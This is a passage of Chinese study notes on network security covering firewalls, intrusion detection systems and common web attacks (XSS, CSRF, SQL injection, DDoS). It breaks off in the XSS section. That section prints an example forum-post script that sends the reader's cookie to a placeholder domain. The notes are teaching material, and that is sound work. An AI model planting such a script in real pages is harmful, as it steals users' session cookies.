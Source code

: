 防火墙的功能有两个：**阻止和允许**。

- “阻止”就是阻止某种类型的通信量通过防火墙（从外部网络到内部网络，或反过来）。
- “允许”的功能与“阻止”恰好相反。

防火墙必须能够识别各种类型的通信量。不过在大多数情况下防火墙的主要功能是“阻止”。

防火墙技术分为一般两类：

**分组过滤路由器**

- 是一种具有分组过滤功能的路由器，它根据过滤规则对进出内部网络的分组执行转发或者丢弃（即过滤）。过滤规则基于分组的网络层或运输层首部的信息，例如：源/目的 IP 地址、源/目的端口、协议类型（TCP 或 UDP）等。
- 分组过滤可以是无状态的，即独立地处理每一个分组。也可以是有状态的，即要跟踪每个连接或会话的通信状态，并根据这些状态信息来决定是否转发分组。
- 简单高效，对用户透明，但不能对高层数据进行过滤。

**应用网关也称为代理服务器 (proxy server)**

- 它在应用层通信中扮演报文中继的角色。
- 每种网络应用需要一个应用网关。
- 在应用网关中，可以实现基于应用层数据的过滤和高层用户鉴别。
- 所有进出网络的应用程序报文都必须通过应用网关。
- 应用网关也有一些缺点：每种应用都需要一个不同的应用网关；在应用层转发和处理报文，处理负担较重；对应用程序不透明，需要在应用程序客户端配置应用网关地址。

##### 2. 入侵检测

防火墙试图在入侵行为发生之前阻止所有可疑的通信。**入侵检测系统 IDS** (Intrusion Detection System) 能够在入侵已经开始，但还没有造成危害或在造成更大危害前，及时检测到入侵，以便尽快阻止入侵，把危害降低到最小。 

IDS 对进入网络的分组执行深度分组检查，当观察到可疑分组时，向网络管理员发出告警或执行阻断操作（由于 IDS 的“误报”率通常较高，多数情况不执行自动阻断）。
IDS 能用于**检测多种网络攻击**，包括网络映射、端口扫描、DoS 攻击、蠕虫和病毒、系统漏洞攻击等。



#### Web 攻击技术

总结一下常见的 Web 攻击方法。

- **XSS攻击**（关键是脚本，利用恶意脚本发起攻击）
- **CSRF攻击**（关键是借助本地 cookie 进行认证，伪造发送请求）
- **SQL注入**（关键是通过用 SQL 语句伪造参数发出攻击）
- **DDOS攻击**（关键是发出大量请求，最后令服务器崩溃）

##### 1. 跨站脚本攻击 XSS

###### ① 概念

跨站脚本攻击（Cross-Site Scripting, XSS），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。从而达到攻击的目的，如盗取用户的 cookie，改变网页的 DOM 结构，重定向到其他网页等。

###### ② 攻击原理

例如有一个论坛网站，攻击者可以在上面发布以下内容：

```html
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

之后该内容可能会被渲染成以下形式：
